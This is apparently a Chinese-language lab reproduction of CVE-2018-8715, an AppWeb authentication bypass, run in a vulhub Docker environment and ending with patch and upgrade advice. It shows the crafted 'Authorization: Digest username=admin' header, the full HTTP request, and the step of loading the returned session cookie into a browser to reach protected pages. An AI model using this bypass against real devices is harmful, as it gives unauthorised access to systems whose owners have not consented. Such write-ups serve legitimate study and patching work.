





# AppWeb认证绕过漏洞

## 漏洞编号

```
CVE-2018-8715
```


## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。

使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。


AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证


7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。


## 影响范围

7.0.3之前的版本


## 利用条件

利用该漏洞需要知道已经存在的用户名


## 指纹信息

```
WWW-Authenticate: Digest
```


## 相关工具

[Cookie-Editor - Microsoft Edge Addons](https://microsoftedge.microsoft.com/addons/detail/cookieeditor/neaplmfkghagebokkhpjpoebhdledlfi)


## 环境配置

vulhub

```
docker-compose up -d
```




## 漏洞复现

访问192.168.1.15:8080




由于利用该条件需要知道已经存在的用户名，而当前环境下用户名为admin

抓包，构造请求头

```
Authorization: Digest username=admin
```

```
GET / HTTP/1.1
Host: 192.168.1.15:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Authorization: Digest username=admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含了一个session


然后我们可以设置这个session到浏览器，即可正常访问需要认证的页面

利用插件EditThisCookie，将cookie值写入到网站



保存后刷新页面



成功绕过验证，进入页面


## 修复方案

- 打补丁

- 升级到最新版本